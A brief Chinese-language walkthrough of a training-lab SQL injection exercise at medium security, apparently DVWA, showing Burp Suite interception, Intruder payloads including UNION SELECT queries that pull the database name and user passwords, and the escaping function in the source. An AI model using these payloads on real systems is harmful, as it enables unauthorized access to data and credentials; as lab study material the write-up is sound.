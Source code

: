 [TOC]

#medium

安全级别为中级时，可以看到页面已经变为下拉式选择框

![medium0](image/medium0.png)

用burp suite拦截查询报文：

![medium1](image/medium1.png)

发现已经不是get型注入了，直接使用burepsuite的intruder进行注入

![medium2](image/medium2.png)

payloads设置为

```
1 or 4725=4725#
id=1' OR 4752=4752#
1  union select 1,database()#
1 union select 1,concat(user,password) from users#
```



返回结果

![medium3](image/medium3.png)

可以看到 `id=1' OR 4752=4752#`注入失败



## 源码

![medium4](image/medium4.png)

可以看到，源码中对输入进行了处理

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

这个函数对`\x00`、 `\n`、 `\r`、 `\`、 `''`、 `'`、 `\x1a`进行转义，因此注入的代码中含有'会报错。